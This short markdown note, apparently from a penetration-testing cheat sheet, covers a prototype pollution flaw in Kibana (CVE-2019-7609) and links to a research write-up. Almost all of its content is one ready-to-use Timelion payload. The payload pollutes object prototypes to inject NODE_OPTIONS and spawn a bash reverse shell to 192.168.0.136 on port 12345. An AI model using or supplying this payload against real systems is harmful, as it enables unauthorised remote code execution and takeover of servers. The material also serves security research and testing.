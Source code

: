 # Prototype pollution (CVE-2019-7609)

{% embed url="https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609" %}

```
# Now I just need to turn it into a real RCE with the following code in Timelion:
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.0.136/12345 0>&1");process.exit()//').props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```
